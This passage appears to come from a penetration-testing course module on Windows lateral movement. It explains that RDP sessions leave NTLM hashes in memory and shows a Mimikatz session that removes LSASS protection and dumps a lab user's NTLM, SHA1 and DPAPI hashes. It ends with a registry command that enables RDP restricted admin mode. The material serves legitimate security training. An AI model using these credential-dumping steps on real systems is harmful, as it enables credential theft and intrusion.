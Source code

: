 When an RDP connection is created, the NTLM hashes will reside in memory for the duration of the session. The session does not terminate without a proper logout, which means simply disconnecting from the sessions will leave the hashes in memory. This creates an attack surface in which we can harvest the credentials if we compromise the machine.

Let's examine how the _dave_ user's credentials are handled on the appsrv01 target machine. If we run C:\Tools\mimikatz.exe from an administrative console, disable the LSA protection (!processprotect), and dump credentials (sekurlsa::logonpasswords), we'll find the NTLM hash of the _dave_ user:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started

mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 532 -> 00/00 [0-0-0]

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2225141 (00000000:0021f3f5)
Session           : RemoteInteractive from 2
User Name         : dave
Domain            : corp1
Logon Server      : DC01
Logon Time        : 3/18/2020 3:02:47 PM
SID               : S-1-5-21-1364860144-3811088588-1134232237-2102
        msv :
         [00000003] Primary
         * Username : dave
         * Domain   : corp1
         * NTLM     : 2892d26cdf84d7a70e2eb3b9f05c425e
         * SHA1     : a188967ac5edb88eca3301f93f756ca8e94013a3
         * DPAPI    : 6904835e1ba09b07bbef109c34d515d6
...
```

> Listing 1 - NTLM credentials in memory after RDP login

In this case, we expected these cached credentials. This means that if we happen to compromise a well-used server (like a _jump server_), we could dump any of those cached credentials as well.

This example highlights an _interactive login_ scenario.[1](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_531-1) Since we ran it over RDP from a different machine, it's also considered a _remote login_. As previously mentioned, clear text credentials are required for all interactive logins.

In an attempt to prevent attackers from stealing credentials on a compromised server, Microsoft introduced RDP with _restricted admin mode_,[2](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_531-2) which allows system administrators to perform a _network login_ with RDP.


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit